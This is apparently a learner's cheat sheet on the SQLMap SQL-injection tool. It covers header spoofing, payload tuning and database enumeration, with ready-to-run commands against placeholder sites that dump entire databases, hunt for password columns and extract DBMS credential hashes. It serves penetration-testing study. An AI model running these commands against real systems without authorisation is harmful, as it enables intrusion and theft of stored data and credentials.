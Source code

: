 - We can specify the cookie with `--cookie`, or `-H` | `--header` for headers, as well as `--host`, `--referer`, `--method` and `-A/--user-agent`
- There is a switch --random-agent designed to randomly select a User-agent header value from the included database of regular browser values, `--mobile` switch can be used to imitate the smartphone by using that same header value.

## SQLMap errors
- `--parse-errors`
- `-t`: to store traffic into an output file: `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`
- `-v`: sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
- `--proxy` to inspect via Burp

## Attack Tuning
- Every attack consists of 2 things: Vector (e.g., UNION ALL SELECT 1,2,VERSION()): central part of the payload, carrying the useful SQL code to be executed at the target. | Boundaries (e.g. '<vector>-- -): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.
- There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run: `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`
- There is a possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap but not on by default. For such demands, the options `--level` and `--risk` should be used:
    - The option `--level` (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    - The option `--risk` (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
- Best way to check the differences between values is with the `-v` flag

## DB Enumeration
- Kitchen sink: `--dump-all`
- Enumeration usually starts with the retrieval of the basic information:
    - Database version banner (switch `--banner`)
    - Current user name (switch `--current-user`)
    - Current database name (switch `--current-db`)
    - Checking if the current user has DBA (administrator) rights (switch `--is-dba`)
- e.g `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
- The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.
- After finding databases, look for tables next: `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`
- After spotting the table name of interest, retrieval of its content can be done by using the --dump option and specifying the table name with -T users, as follows: ` sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb`
- When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only name and surname columns) with the -C option: `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`
- Conditional enumeration: `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`
- DB schema enumeration: `sqlmap -u "http://www.example.com/?id=1" --schema`
- Searching for data: `sqlmap -u "http://www.example.com/?id=1" --search -T user`
- Search columns for spercific keywords: `sqlmap -u "http://www.example.com/?id=1" --search -C pass`
- Once we identify a table containing passwords (e.g. master.users), we can retrieve that table with the -T option: `sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users`
- For database specific credentails: `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`
- The `--all` switch in combination with the `--batch` switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.
